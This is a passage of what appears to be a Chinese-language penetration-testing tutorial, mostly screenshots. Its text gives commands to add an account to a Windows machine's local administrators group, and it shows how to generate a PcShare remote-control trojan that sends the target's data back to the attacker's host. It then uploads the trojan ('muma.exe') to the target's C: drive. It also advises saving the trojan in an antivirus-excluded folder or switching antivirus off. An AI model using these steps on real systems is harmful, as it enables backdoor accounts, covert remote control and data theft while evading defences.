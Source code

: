   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBuNictRicK1Fia0pKa8T4CltbLNCNrOtOugcdSNzxVNnJdSN0IIvTKHuHg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBZtV1GQmhTKDMzWd14JHWicDJia7ND2TNGmiceYfsiaicuJhkHD9h1JMH7cg/640?wx_fmt=png&from=appmsg "")  
## 添加为管理员  

```
net localgroup administrators 22w4hyq /add


```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBWtAQO98rh0TicA2icbyqMK3icbpYQwVmkwHJXCAgq4icDqUoiakpefOfrEQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB4Q4kaicVGCtpSFSCy0WIZY9nicxrRrXFkq6JBfYSiarMxOlRtt5jDFX1w/640?wx_fmt=png&from=appmsg "")  
## pcshare生成木马远程控制  
  
我们上传一个远程桌面控制木马程序，pcshare 双击打开 PcShare.exe，然后点击弹框中的取消按钮  点击生成客户  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBKEBc7ricGf4zNlukyNp3ThxdELZmocrHz20ODrRKM3voWMD0xQJ7icYg/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBevdUcwiaZwxdDz272ThkibolYCGg1Q0ZBvJzawdGtUmwgYxWIrEryArQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBMqEmvEWBmufibgU8kGvouiaoib4B2wacM8B0KUpqkiaj58lnkSLGicA3J4g/640?wx_fmt=png&from=appmsg "")  
查看当前打开 pcshare 工具的主机，在物理机打开的，物理机的 ip 的地址要填写在上面的弹框中，表示将来的木马程序将目标主机的数据发送给当前物理机的 pcshare 工具上点击生成，会弹出如下窗口，它自动生成了一个木马程序，先保存下来，文件名称随便写。
```
注意，有可能被杀毒软件杀掉，因为是木马程序，所以要选择一个保存到一个设置了免杀的目录中去，比如 tools 文件夹（或这个时候关闭杀毒软件）。
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB86RMcGFia2531IDZpth1IAmsVZ8tLb8uMicIUaOmhzB4zqLfN0YfJEzQ/640?wx_fmt=png&from=appmsg "")  
  
先退出shell
```
eixt
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBKlS9mXJ1UpBmma6PXaK86amsfEASQo5qfIoH5zpR5TU1dHZWvGeIzQ/640?wx_fmt=png&from=appmsg "")  
  
接着将生成的 muma.exe 文件上传到 kali 主机上，比如上传到了/root 目录下面。最后将上传到 kali 上的 muma.exe 程序文件上传到目标主机上，上传到目标的 c 盘根目录中。  

```
upload /root/muma.exe C:

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB2cVWRs9sdHUlVQn5Ra4jFrYCA3Dvia871VswtGXrXf7K0qA33PY20hQ/640?wx_fmt=png&from=appmsg "")  
  